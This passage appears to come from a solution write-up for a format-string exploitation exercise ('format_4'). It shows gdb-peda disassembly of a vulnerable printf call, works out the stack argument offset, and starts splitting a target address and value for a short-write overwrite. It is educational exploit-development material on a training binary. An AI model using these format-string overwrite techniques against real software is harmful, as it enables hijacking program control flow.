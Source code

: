 ```nasm
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x0804851b <+0>:	push   ebp
   0x0804851c <+1>:	mov    ebp,esp
   0x0804851e <+3>:	sub    esp,0x218
   0x08048524 <+9>:	mov    eax,ds:0x804a030
   0x08048529 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x0804852d <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048535 <+26>:	lea    eax,[ebp-0x208]
   0x0804853b <+32>:	mov    DWORD PTR [esp],eax
   0x0804853e <+35>:	call   0x80483b0 <fgets@plt>
   0x08048543 <+40>:	lea    eax,[ebp-0x208]
   0x08048549 <+46>:	mov    DWORD PTR [esp],eax
   0x0804854c <+49>:	call   0x8048390 <printf@plt>
   0x08048551 <+54>:	mov    DWORD PTR [esp],0x1
   0x08048558 <+61>:	call   0x80483e0 <exit@plt>
End of assembler dump.
gdb-peda$ b * 0x0804854c
Breakpoint 1 at 0x804854c: file format_4.c, line 20.
gdb-peda$ r
Starting program: format_4 
AAAA 
...Trim...
[-------------------------------------code-------------------------------------]
   0x804853e <vuln+35>:	call   0x80483b0 <fgets@plt>
   0x8048543 <vuln+40>:	lea    eax,[ebp-0x208]
   0x8048549 <vuln+46>:	mov    DWORD PTR [esp],eax
=> 0x804854c <vuln+49>:	call   0x8048390 <printf@plt>
   0x8048551 <vuln+54>:	mov    DWORD PTR [esp],0x1
...Trim...

gdb-peda$ x $esp
0xffffcef0:	0xffffcf00

gdb-peda$ p/d (0xffffcf00-0xffffcef0)/4
$1 = 4
```
As seen above, the offset is 4 bytes.

It's possible to validate by select 4th argument via **$** (direct access) as well.

```
$ ./format_4
AAAA%4$x
AAAA41414141                     
```

The following payload is created by using short writes method as explained in format-3 solution.

Target address: **0804a020**
Target value: **080484fd**

Let's split **080484fd** into **0x84fd** and **0x0804**.
